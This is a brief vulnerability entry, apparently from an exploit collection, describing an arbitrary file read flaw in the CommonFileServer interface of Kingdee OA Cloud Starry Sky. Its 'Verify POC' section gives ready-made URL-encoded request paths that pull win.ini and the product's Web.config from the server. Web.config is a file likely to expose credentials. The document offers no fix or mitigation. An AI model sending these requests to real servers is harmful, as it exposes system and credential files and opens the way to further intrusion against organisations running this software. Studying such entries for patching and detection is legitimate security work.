 # Kingdee OA Cloud Star CommonFileServer arbitrary file reading vulnerability

## Vulnerability Description

Kingdee OA Cloud Starry Sky CommonFileServer interface has arbitrary file reading vulnerability. The attacker can obtain sensitive files in the server through the vulnerability, and further attack the server.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Kingdee OA Cloud Starry Sky</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1684495679897-2feb46d7-5571-44e5-b6d1-b5997d685a9f.png)

Verify POC

```python
/CommonFileServer/c%3a%2fwindows%2fwin.ini
/CommonFileServer/C%3A%5CProgram%20Files%20%28x86%29%5CKingdee%5CK3Cloud%5CWebSite%5CWeb.config
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1684495701547-33614a2b-d201-49e4-be6e-b0dd7aee10c3.png)
